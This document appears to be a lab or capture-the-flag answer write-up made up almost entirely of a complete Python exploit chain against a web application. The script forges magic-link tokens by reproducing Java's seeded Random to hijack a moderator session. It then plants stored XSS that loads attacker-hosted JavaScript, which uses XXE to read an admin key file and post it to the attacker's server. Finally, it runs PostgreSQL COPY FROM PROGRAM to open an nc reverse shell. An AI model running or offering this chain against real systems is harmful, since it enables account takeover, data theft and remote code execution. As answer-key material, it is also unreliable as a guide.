

# Answers

## Script

Limitation:

Hardcoded moderator username and user ID.

```python
import requests, time, base64, argparse, threading
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs, unquote_plus

# -----Arguments-----
parser = argparse.ArgumentParser()
parser.add_argument('-t','--target', help='Victim IP', required=True)
parser.add_argument('-l','--lhost', help='Attacker IP (tun0)', required=True)
parser.add_argument('-lp','--lport', help='Netcat listening port (Default: 5432)', default=5432)
parser.add_argument('-wp','--wport', help='Attacker web server hosting port (Default: 8000)', default=8000)
args = parser.parse_args()
target = args.target
lhost = args.lhost
lport = args.lport
wport = args.wport

# -----Session setup-----
session = requests.Session()
session.verify = False
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

# -----Config-----
admin_key = None
exfil_event = threading.Event()
rce_event = threading.Event()


# -----Replicate Insecure Java Random class-----
class JavaRandom:
    def __init__(self, seed):
        self.seed = (seed ^ 0x5DEECE66D) & ((1 << 48) - 1)

    def next(self, bits):
        self.seed = (self.seed * 0x5DEECE66D + 0xB) & ((1 << 48) - 1)
        return self.seed >> (48 - bits)

    def nextInt(self, n):
        if n <= 0:
            raise ValueError("n must be positive")
        if (n & (n - 1)) == 0:  # n is power of 2
            return (n * self.next(31)) >> 31
        while True:
            bits = self.next(31)
            val = bits % n
            if bits - val + (n - 1) >= 0:
                return val


class Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        global admin_key
        if self.path != "/exfil":
            self.send_response(404)
            self.end_headers()
            return
        length = int(self.headers.get("Content-Length", 0))
        body = self.rfile.read(length).decode()
        params = parse_qs(body)
        if "data" in params:
            raw_admin_key = unquote_plus(params["data"][0])
            admin_key = raw_admin_key.split("<questions>")[1].split("</questions>")[0].strip()
            print(f"[+] Admin Key: {admin_key}")
        self.send_response(200)
        self.end_headers()
        exfil_event.set()
        return
        
    def do_GET(self):
        if self.path == "/payload.js":
            print(f"[+] Received GET request to payload.js")
            JS_ADMIN_KEY = f"""async function readAdminKey() {{
                    const post_url = 'http://{target}/admin/import';
                    const data = new URLSearchParams({{
                    preview: 'true',
                    xmldata: `<?xml version="1.0" encoding="ISO-8859-1"?>
            <!DOCTYPE title [
              <!ENTITY xxe SYSTEM "file:///home/student/adminkey.txt">
            ]>
            <database>
              <questions>&xxe;</questions>
            </database>`
                }});
                try {{
                    const response = await fetch(post_url, {{
                        method: 'POST',
                        credentials: 'include',
                        headers: {{
                            'Content-Type': 'application/x-www-form-urlencoded',
                        }},
                        body: data.toString(),
                    }});
                    const result = await response.text();
                    await fetch("http://{lhost}:{wport}/exfil", {{
                        method: "POST",
                        headers: {{
                            "Content-Type": "application/x-www-form-urlencoded"
                        }},
                        body: "data=" + encodeURIComponent(result)
                    }});
                }} catch (error) {{
                    console.error('Error:', error);
                }}
            }}

            readAdminKey();
            """
            self.send_response(200)
            self.send_header("Content-Type", "application/javascript")
            self.end_headers()
            self.wfile.write(JS_ADMIN_KEY.encode())
            return
        if self.path == "/rcepayload.js":
            print(f"[+] Received GET request to rcepayload.js")
            JS_RCE = f"""async function getRCE() {{
                    const post_url = 'http://{target}/admin/query';
                    const data = new URLSearchParams({{
                    adminKey: '{admin_key}',
                    query: `DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost} {lport}>/tmp/f';`
                }});
                try {{
                    const response = await fetch(post_url, {{
                        method: 'POST',
                        credentials: 'include',
                        headers: {{
                            'Content-Type': 'application/x-www-form-urlencoded',
                        }},
                        body: data.toString(),
                    }});
                    const result = await response.text();

                }} catch (error) {{
                    console.error('Error:', error);
                }}
            }}

            getRCE();
            """
            self.send_response(200)
            self.send_header("Content-Type", "application/javascript")
            self.end_headers()
            self.wfile.write(JS_RCE.encode())
            rce_event.set()
            return

        self.send_response(404)
        self.end_headers()

    def log_message(self, *args):
        pass
        
        
def createToken(start_time, end_time):
    tokens = []
    TOKEN_LENGTH = 42
    CHARSET = (
        "abcdefghijklmnopqrstuvwxyz"
        "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
        "1234567890"
        "!@#$%^&*()"
    )
    
    for l in range(start_time, end_time):
        userid = int(5)
        # byte[] encbytes = new byte[TOKEN_LENGTH];
        encbytes = bytearray(TOKEN_LENGTH)
        # Random random = new Random(System.currentTimeMillis());
        rng = JavaRandom(l)
        # for(int i = 0; i < TOKEN_LENGTH; i++) {
            # sb.append(CHARSET.charAt(random.nextInt(CHARSET.length())));
        sb = ''.join(CHARSET[rng.nextInt(len(CHARSET))] for _ in range(TOKEN_LENGTH))
        # byte[] bytes = sb.toString().getBytes();
        nonencbytes = bytearray(sb.encode("utf-8"))
        
        # for(int i=0; i<bytes.length; i++) {
        #   encbytes[i] = (byte) (bytes[i] ^ (byte) userId);
        # }
        i = 0
        byte_len = len(nonencbytes)
        while i < byte_len:
            eb = nonencbytes[i] ^ userid
            encbytes[i] = eb
            i += 1
        
        # return Base64.getUrlEncoder().withoutPadding().encodeToString(encbytes);
        token = base64.urlsafe_b64encode(encbytes).rstrip(b"=").decode()
        tokens.append(token)
    return tokens
   

def send_JS_payload(mod_cookie):
    cookies = dict(JSESSIONID=mod_cookie)
    data = {'title': 'a', 'description': f'a<script src="http://{lhost}:{wport}/payload.js"></script>', 'category': '1'}
    response = session.post(f"http://{target}/question", data=data, cookies=cookies, verify=False, allow_redirects=False)

    # Retrieve admin key with XXE in /admin/import
    server = HTTPServer((lhost, wport), Handler)
    print(f"[*] Serving payload.js at http://{lhost}:{wport}/payload.js")
    print("[*] Posted question as moderator. Waiting for XSS payload trigger...")
    threading.Thread(target=server.serve_forever, daemon=True).start()
    exfil_event.wait(timeout=300)
    # Use admin key in /admin/query for RCE
    global admin_key
    if admin_key:
        data = {'title': 'b', 'description': f'b<script src="http://{lhost}:{wport}/rcepayload.js"></script>', 'category': '1'}
        response = session.post(f"http://{target}/question", data=data, cookies=cookies, verify=False, allow_redirects=False)
        print(f"[*] Posted question as moderator. Serving rcepayload.js at http://{lhost}:{wport}/rcepayload.js")
        print("[*] Waiting for request...")
        rce_event.wait(timeout=300)

def main():
    start_time = int(time.time() * 1000) - 300
    data = {'username': 'Carl'}
    response = session.post(f"http://{target}/generateMagicLink", data=data, verify=False, allow_redirects=False)
    time.sleep(2)
    end_time = int(time.time() * 1000) + 300
    output = createToken(start_time, end_time)
    for item in output:
        url = f'http://{target}/magicLink/' + item
        response = session.get(url, verify=False, allow_redirects=False)
        print("\rTrying reset token: {item}".format(item=item), end='')
        if response.cookies:
            mod_cookie = response.cookies['JSESSIONID']
            break
    if mod_cookie:
        print("\r", end='')
        print(f"[+] Moderator JSESSIONID: {mod_cookie}")
        send_JS_payload(mod_cookie)

if __name__ == "__main__":
    main()
```

<figure><figcaption></figcaption></figure>
